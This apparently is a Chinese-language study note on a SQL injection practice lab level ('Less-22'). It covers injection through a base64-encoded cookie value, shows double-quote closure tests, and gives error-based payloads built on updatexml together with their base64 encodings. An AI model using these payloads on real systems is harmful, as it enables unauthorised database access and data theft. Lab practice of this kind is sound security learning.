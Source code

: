 ![](img/Less-22.2.png)

+ 报错信息可知，闭合方式： ”
+ 字符型注入
+ 双引号

+ 注入测试：

+ Cookie字段  uname=
    ```bash
    Dumb" or "1" ="1
    RHVtYiIgb3IgIjEiID0iMQ==      #输入后页面和和谐   。没有报错

    Dumb" or "1 #
    RHVtYiIgb3IgIjEgIw==           # 输入后页面很和谐

    Dumb" "1 #
    RHVtYiIgIjEgIw==                     # 输入后页面很和谐

    Dumb""
    RHVtYiIi			  # 输入后页面很和谐
    ```
+ 注入Payload：
    ```bash
    Cookie字段  uname=

    Dumb" and updatexml(1,concat('^',(select version()),'^'),1) or "1 

    RHVtYiIgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgnXicsKHNlbGVjdCB2ZXJzaW9uKCkpLCdeJyksMSkgb3IgIjEg


    Dumb" and updatexml(1,concat('^',(select version()),'^'),1) or " 1 #

    RHVtYiIgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgnXicsKHNlbGVjdCB2ZXJzaW9uKCkpLCdeJyksMSkgb3IgIiAxICM=
    ```
